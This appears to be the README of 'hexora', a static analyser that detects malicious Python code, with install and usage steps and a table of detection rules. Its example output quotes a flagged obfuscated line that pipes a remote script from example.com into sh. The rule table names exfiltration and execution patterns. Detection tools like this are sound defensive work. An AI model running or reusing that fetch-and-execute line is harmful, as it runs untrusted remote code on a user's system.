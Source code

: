 # hexora

Hexora is a static analysis tool designed to detect malicious and harmful patterns in Python code.

It can be used to:

- Audit project dependencies to catch potential supply-chain attacks
- Detect malicious scripts found on platforms like Pastebin, GitHub, or open directories
- Analyze IoC files from past security incidents
- Audit new packages uploaded to PyPi.


<img width="600" alt="Hexora example" src="docs/example.gif">


# Examples

For output examples, please see [docs/examples.md](docs/examples.md) file.

# Installation

## Using Python

Requires Python 3.9+.

```bash
pip install hexora
```

Using uv:
```bash
uv tool install hexora
```

# Usage


```bash
hexora --help
```

## Audit single file

```bash 
>  hexora audit test.py

warning[HX2000]: Reading from the clipboard can be used to exfiltrate sensitive data.
  ┌─ resources/test/test.py:3:8
  │
1 │ import pyperclip
2 │
3 │ data = pyperclip.paste()
  │        ^^^^^^^^^^^^^^^^^ HX2000
  │
  = Confidence: High
    Help: Clipboard access can be used to exfiltrate sensitive data such as passwords and keys.
    
warning[HX3000]: Possible execution of unwanted code
   ┌─ resources/test/test.py:20:1
   │
19 │ (_ceil, _random, Math,), Run, (Floor, _frame, _divide) = (exec, str, tuple), map, (ord, globals, eval)
20 │ _ceil("import subprocess;subprocess.call(['curl -fsSL https://example.com/b.sh | sh'])")
   │ ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ HX3000
   │
```


## Audit directory

```bash
hexora audit --output-format terminal resources/test/
```


## Audit packages from virtual environment

```bash
hexora audit --exclude HX5020,HX5030,HX5040,HX5050,HX5060 --min-confidence high .venv/lib/python3.11/site-packages/ 
```

Where `python3.11` is the version of the Python in virtual environment.

Tips:

- Use `--exclude` to suppress certain rule codes (e.g., noisy imports) for a given run
- Use `--min-confidence` to focus on high-confidence findings only.

Confidence indicates how a certain piece of code is malicious.
Some libraries or code snippets are used for legit purposes, and it's hard to distinguish legit use-cases from 
malicious ones.
That's why some matches have a low confidence level.

## Usage in Python

```python
>>> import hexora
>>> results = hexora.audit_path("/Projects/hexora/resources/test/")
>>> len(results)
15
>>> results[0]
{'items': [{'confidence': 'low',
            'description': 'pyperclip can be used to copy and paste data from '
                           'the clipboard.',
            'label': 'pyperclip',
            'location': (7, 16),
            'rule': 'HX5010'},
           {'confidence': 'high',
            'description': 'Reading from the clipboard can be used to '
                           'exfiltrate sensitive data.',
            'label': 'pyperclip.paste',
            'location': (25, 42),
            'rule': 'HX2000'}],
 'path': '/Projects/hexora/resources/test/clipboard_01.py'}
>>> # Single file audit
>>> result = hexora.audit_file("/Projects/hexora/resources/test/clipboard_01.py")
>>> ...
 ```

## Available rules

New rules are added regularly.

Right now, the following rules are available:
| Code | Name | Description |
|---|---|---|
| HX1000 | AppEnumeration | Suspicious application enumeration. |
| HX1010 | BrowserEnumeration | Suspicious browser enumeration (apps, cookies, history, etc.). |
| HX1020 | PathEnumeration | Suspicious path enumeration. |
| HX2000 | ClipboardRead | Reading from the clipboard. |
| HX2010 | EnvAccess | Access to a sensitive environment variable. |
| HX3000 | CodeExec | Possible code execution. |
| HX3010 | ShellExec | Execution of a shell command. |
| HX3020 | DunderShellExec | Execution of a shell command via `__import__`. |
| HX3030 | DunderCodeExec | Execution of code via `__import__`. |
| HX3040 | DLLInjection | Possible DLL injection. |
| HX3050 | CurlWgetExec | Execution of curl or wget in shell command. |
| HX4000 | ObfuscateShellExec | Execution of an obfuscated shell command. |
| HX4010 | ObfuscatedCodeExec | Execution of obfuscated code. |
| HX4020 | ObfuscatedDunderShellExec | Execution of an obfuscated shell command via `__import__`. |
| HX4030 | ObfuscatedDunderCodeExec | Execution of obfuscated code via `__import__`. |
| HX5000 | DunderImport | Suspicious use of `__import__`. |
| HX5010 | SuspiciousImport | Suspicious import. |
| HX5020 | CtypesImport | Suspicious ctypes import. |
| HX5030 | PickleImport | Suspicious pickle import. |
| HX5040 | StructImport | Suspicious struct import. |
| HX5050 | SocketImport | Suspicious socket import. |
| HX5060 | MarshalImport | Suspicious marshal import. |
| HX6000 | Base64String | Long Base64-encoded string detected; possible code obfuscation. |
| HX6010 | HexedLiterals | List of hex-encoded literals detected; possible payload. |
| HX6020 | HexedString | Long hex-encoded string detected; possible payload. |
| HX6030 | IntLiterals | Large list of integer literals detected; possible code obfuscation. |
| HX6040 | CVEInLiteral | Literal contains a CVE identifier. |
| HX6050 | SuspiciousLiteral | Suspicious literal detected; possible data enumeration. |
| HX6060 | PathTraversal | Suspicious path traversal. |
| HX6070 | BrowserExtension | Enumeration of sensitive browser extensions. |
| HX6080 | WebHook | Suspicious webhook detected. Possible data exfiltration. |
| HX7000 | SuspiciousFunctionName | Suspicious function name. |
| HX7010 | SuspiciousParameterName | Suspicious parameter name. |
| HX7020 | SuspiciousVariable | Suspicious variable name. |
| HX8000 | BinaryDownload | Suspicious binary download. |
| HX8010 | BuiltinsVariable | Suspicious builtin variable usage. |


## Credits

For parsing, we use AST parser from [ruff](https://github.com/astral-sh/ruff/tree/main) library.
